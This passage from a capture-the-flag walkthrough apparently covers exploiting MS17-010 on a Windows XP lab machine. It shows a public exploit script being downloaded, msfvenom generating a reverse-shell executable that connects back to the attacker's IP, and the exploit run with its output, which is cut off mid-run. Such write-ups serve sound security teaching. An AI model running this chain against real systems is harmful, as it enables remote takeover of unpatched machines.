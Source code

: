 #### Locate Exploit

There's a few GitHubs out there with MS-17-010 code, but not as many
that work on XP. My favorite is a fork of [worawit's MS17-010
repo](https://github.com/worawit/MS17-010) by
[helviojunior](https://github.com/helviojunior/MS17-010). He added a
`send_and_execute.py`, which I can give an executable and it will upload
and run it.

I'll grab a copy of the script:



    root@kali# wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
    --2019-02-19 14:05:59--  https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 43783 (43K) [text/plain]
    Saving to: ‘send_and_execute.py’

    send_and_execute.py                                         100%[========================================================================================================================================>]  42.76K  --.-KB/s    in 0.01s   

    2019-02-19 14:05:59 (3.19 MB/s) - ‘send_and_execute.py’ saved [43783/43783]



#### Generate Payload

I'll use `msfvenom` again. This time, I don't need to worry about bad
characters or variable names, as I can use an exe:



    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.14.14_443.exe
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes
    Saved as: rev_10.10.14.14_443.exe



#### Run Exploit

Now I'll start a listener, and then run the exploit:



    root@kali# python send_and_execute.py 10.10.10.4 rev_10.10.14.14_443.exe
    Trying to connect to 10.10.10.4:445
    Target OS: Windows 5.1
    Using named pipe: browser
    Groom packets
    attempt controlling next transaction on x86
    success controlling one transaction
    modify parameter count to 0xffffffff to be able to write backward
    leak next transaction
    CONNECTION: 0x82246bb8
    SESSION: 0xe10f9408
    FLINK: 0x7bd48
    InData: 0x7ae28
    MID: 0xa
    TRANS1: 0x78b50
    TRANS2: 0x7ac90
    modify transaction struct for arbitrary read/write
    make this SMB session to be SYSTEM
    current TOKEN addr: 0xe1b1df10